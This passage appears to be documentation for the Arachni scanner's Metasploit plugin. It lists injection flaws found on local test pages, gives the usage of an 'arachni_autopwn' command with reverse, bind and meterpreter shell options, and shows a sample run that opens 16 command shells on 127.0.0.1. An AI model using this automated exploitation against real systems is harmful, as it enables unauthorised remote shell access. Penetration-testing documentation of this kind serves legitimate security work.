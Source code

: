         14  127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   GET     {"os_command"=>"XXinjectionXX\x00"}  unix/webapp/arachni_exec
        15  127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   GET     {"os_command"=>"XXinjectionXX"}      unix/webapp/arachni_exec
        16  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  GET     {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        17  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  GET     {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        18  127.0.0.1  /~zapotek/tests/links/eval.php          Code injection         GET     {"eval"=>";XXinjectionXX"}           unix/webapp/arachni_php_eval
        19  127.0.0.1  /~zapotek/tests/links/sqli.php          Blind SQL Injection    GET     {"id"=>"1"}                          unix/webapp/arachni_sqlmap



    [*] Done!
    msf >

#### Automated exploitation (arachni_autopwn)

##### Usage
    msf > arachni_autopwn
    [*] Usage: arachni_autopwn [options]
            -h          Display this help text
            -x [regexp] Only run modules whose name matches the regex
            -a          Launch exploits against all matched targets
            -r          Use a reverse connect shell
            -b          Use a bind shell on a random port (default)
            -m          Use a meterpreter shell (if possible)
            -q          Disable exploit module output

##### Example
    msf > arachni_autopwn -a
    [*] Running pwn-jobs...
    [...snip...]
    [*] Command shell session 1 opened (127.0.0.1:54598 -> 127.0.0.1:5019) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 2 opened (127.0.0.1:55336 -> 127.0.0.1:8541) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 3 opened (127.0.0.1:37880 -> 127.0.0.1:12465) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 4 opened (127.0.0.1:49451 -> 127.0.0.1:10866) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 5 opened (127.0.0.1:40276 -> 127.0.0.1:11915) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 6 opened (127.0.0.1:34400 -> 127.0.0.1:5222) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 7 opened (127.0.0.1:58456 -> 127.0.0.1:10955) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 9 opened (127.0.0.1:48549 -> 127.0.0.1:5929) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 8 opened (127.0.0.1:47028 -> 127.0.0.1:12432) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 10 opened (127.0.0.1:38239 -> 127.0.0.1:11919) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 11 opened (127.0.0.1:58541 -> 127.0.0.1:14343) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 12 opened (127.0.0.1:48655 -> 127.0.0.1:13743) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 13 opened (127.0.0.1:59996 -> 127.0.0.1:8895) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 14 opened (127.0.0.1:53717 -> 127.0.0.1:10767) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 15 opened (127.0.0.1:51623 -> 127.0.0.1:7668) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 16 opened (127.0.0.1:47874 -> 127.0.0.1:8965) at 2010-10-28 18:26:02 +0100
    [...snip...]
    [*] The autopwn command has completed with 16 sessions